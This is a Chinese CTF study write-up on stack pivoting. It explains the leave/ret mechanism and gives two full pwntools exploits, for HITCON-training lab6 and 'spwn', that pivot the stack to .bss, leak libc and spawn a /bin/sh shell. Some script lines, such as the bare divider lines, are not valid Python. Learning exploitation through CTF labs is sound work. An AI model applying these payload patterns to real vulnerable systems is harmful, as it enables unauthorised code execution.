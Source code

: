 ```yaml
---
title: 栈迁移学习
date: 2020-01-17 22:02:15
tags: pwn
---
```

之前ciscn华东南线下的被打穿的题没有做出来，后面了解到考察点是栈迁移，现在就学习栈迁移技术做个记录  
<!--more-->
栈迁移适用于如下情况：  
·可以控制的栈溢出的字节数较少，难以构造较长的 ROP 链  
·开启了 PIE 保护，栈地址未知，我们可以将栈劫持到已知的区域。  
·其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而在堆上写 rop 及进行堆漏洞利用   
栈迁移的核心就是leave,ret，这条指令相当于
```Python
mov esp, ebp # 将ebp的值赋给esp，会将esp也指向当前栈溢出漏洞的ebp基地址处
pop ebp # 弹出ebp，会将栈中存放的假ebp的值赋给ebp
```
解释一下这两条指令  
在有栈溢出的程序执行 leave 时，其分为两个步骤  
① mov esp, ebp，这会将esp也指向当前栈溢出漏洞的ebp基地址处。  
② pop ebp，这会将栈中存放的假ebp的值赋给ebp。即执行完指令之后，ebp便指向了ebp2，也就是保存了ebp2所在的地址。(ebp2即为我们需要迁移到的段的地址)  
执行 ret 指令，会再次执行leave ret指令  
执行 leave 指令，其分为两个步骤
① mov esp, ebp ，这会将esp指向ebp2。
② pop ebp，此时，会将ebp的内容设置为ebp2的值，同时esp会指向target function。  
执行ret指令,这时候程序就会执行target function，当其进行程序的时候会执行  
push ebp，会将ebp2值压入栈中，  
mov ebp, esp，将ebp指向当前基地址。  
也就是说我们溢出时，将原ebp覆盖成我们打算迁移到的地址，然后再leave,ret;就会将栈迁移到我们想要迁移的地方去了。结合gdb调试可知。  
# migration
例题用HITCON-trainning的lab6  
查看文件信息  
![](migration5.png)
32位动态链接  
IDA看一看
![](migration1.png)
这里有个if条件，所以main函数只能执行一次，那泄露完地址之后就不能重新再打一遍payload了  
栈的大小是0x28，read到0x40，所以溢出了，但是0x40-0x28=0x18的空间不够布置rop链来进行泄露地址等操作，所以我们将栈迁移到另外一块更大的空间来布置payload.  
![](migration2.png)
我们可以迁移到bss段  
用pattern算偏移  
![](migration333.png)
因为我们需要将ebp覆盖为bss段的地址，所以减去4，那么就是填充40个a  
再看看有什么函数可用的
![](migration6.png)
有puts函数可以泄露  
找合适的gadgets  
```Shell
$ ROPgadget --binary migration  --only 'leave|ret'
Gadgets information
============================================================
0x08048418 : leave ; ret
```
```Shell
# ROPgadget --binary migration  --only 'pop|ret'  
Gadgets information  
============================================================
0x0804856b : pop ebp ; ret
0x08048568 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804836d : pop ebx ; ret
0x0804856a : pop edi ; pop ebp ; ret
0x08048569 : pop esi ; pop edi ; pop ebp ; ret
0x08048356 : ret
0x0804842e : ret 0xeac1

Unique gadgets found: 7
```
整体思路可以简单理解为，第一次先把栈迁移到bss+0x500的地方去，然后第二次再去bss+0x400的地方泄露地址，然后第三次再回到0x500的地方去执行system("/bin/sh")  
这个0x500，0x400都是随机取的，用0x600，0x700也是一样的
直接贴exp
```Python
#coding=utf-8
from pwn import*
sh=process("./migration")
elf = ELF("./migration")
libc = elf.libc
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
leave_ret = 0x08048418
pop_ebx_ret = 0x0804836d #此gadget的作用是为了保持栈平衡
bss = 0x0804a00c   #bss段地址
buf1 = bss+0x500
buf2 = bss+0x400
sh.recvuntil("best :\n")
#buf1 为ebp，eip ==> read_plt ==> leave_ret为返回地址 ==> read(0,buf1,0x100)
payload1 = "a"*40 + p32(buf1) + p32(elf.plt['read']) + p32(leave_ret) + p32(0) + p32(buf1) + p32(0x100)
sh.send(payload1)
payload2 = p32(buf2) + p32(elf.plt['puts']) + p32(pop_ebx_ret) + p32(elf.got['puts'])  #泄露puts函数地址
payload2 += p32(elf.plt['read']) + p32(leave_ret) + p32(0) + p32(buf2) + p32(0x100)  
#再次调用read函数第三次打payload  
#gdb.attach(sh)
sh.send(payload2)
#接收并计算地址
puts_addr = u32(sh.recv(4))
log.success("puts_addr = " + hex(puts_addr))
base = puts_addr - libc.symbols['puts']
sys_addr = base + libc.symbols['system']
log.success("sys_addr = " + hex(sys_addr))
binsh_addr = base + libc.search("/bin/sh").next()
log.success("binsh_addr = " + hex(binsh_addr))
payload3 = p32(buf1) + p32(sys_addr) + p32(0xdeadbeef) + p32(binsh_addr)
sh.send(payload3)
sh.interactive()
```
泄露地址后的返回地址是pop ebx;ret 是为了保持栈平衡，但是我不知道为什么保持栈平衡填ret也不行，这个栈平衡的还有待研究。  

# spwn  
这题做了3个晚上还是看着zhz师傅的exp才搞出来的，实在痛苦，不过还是通过调exp学到些东西。  
首先，放在payload开头的需要迁移到的地址，buf1、buf2这些，是在执行完当前函数之后leave ret会直接跳转到该地址去，从该地址继续执行。然后也就是说开头的buf1地址是会覆盖掉ebp的，然后后面的函数地址就会覆盖掉返回地址，继而能执行后面布置的payload。  
首先还是照例查看文件信息  
![](spwn3.png)
IDA,F5,溢出函数就这一个  
![](spwn1.png)  
s是应该是不会溢出的，在函数里没有定义s的大小，点进去s看一下  
![](spwn2.png)
这个s就是直接read到bss段里面去了，一块很大的空间，基本上不可能有溢出，然后就是buf的溢出了，这种溢出字节不够的显然是用栈迁移来做了  
gdb算一下偏移  
![](spwn4.png)
```python  
#coding=utf-8
from pwn import*
from LibcSearcher import*
p=process("./spwn")
#p=remote("node3.buuoj.cn",25986)
elf = ELF("./spwn")
#libc = elf.libc
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
leave_ret = 0x08048408
buf1 = 0x804A400
buf2 = 0x804A450
padding = "a" * 24
p.recvuntil("name?")
payload2 = p32(buf1) + p32(elf.plt['write']) + p32(leave_ret) + p32(0x1) + p32(elf.got['write']) + p32(0x4)
payload2 += "a" * (0x100-len(payload2)) #直接填满0x804a300到0x804a400之间的空闲位置，以便只需要调用一次read即可  
payload2 += p32(buf2) + p32(elf.plt['read']) + p32(leave_ret) + p32(0x0) + p32(buf2) + p32(0x30)
#gdb.attach(p)
p.send(payload2)

p.recvuntil("say?")
payload = padding + p32(0x804A300) + p32(leave_ret)
p.send(payload)
=========================leak libc address=========================
write_addr = u32(p.recv(4))
#write_addr = u32(p.recvuntil("\xf7")[-4:])
libc = LibcSearcher('write',write_addr)
offset = write_addr - libc.dump('write')
sys_addr = offset + libc.dump('system')
binsh_addr = offset + libc.dump('str_bin_sh')
log.success("write_addr==>" + hex(write_addr))
log.success("sys_addr==>" + hex(sys_addr))
log.success("binsh_addr==>" + hex(binsh_addr))
=========================get shell=================================
payload3 = p32(buf2) + p32(sys_addr) + p32(0xdeadbeef) + p32(binsh_addr)
p.send(payload3)

p.interactive()
```   
参考链接:  
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop-zh/#frame-faking  
https://veritas501.space/2017/05/23/HITCON-training%20writeup/  
https://yof3ng.github.io/2018/10/25/Pwn-10%E6%9C%8825-Hitcon-%E4%B8%89/  
https://gdufs-king.github.io/2019/03/11/%E8%8A%B1%E5%BC%8F%E6%A0%88%E6%BA%A2%E5%87%BA/   
https://tina2114.github.io/2019/10/18/%E5%AF%B9%E4%BA%8E%E6%A0%88%E8%BF%81%E7%A7%BB%E6%8A%80%E6%9C%AF%E7%9A%84%E5%AD%A6%E4%B9%A0/  
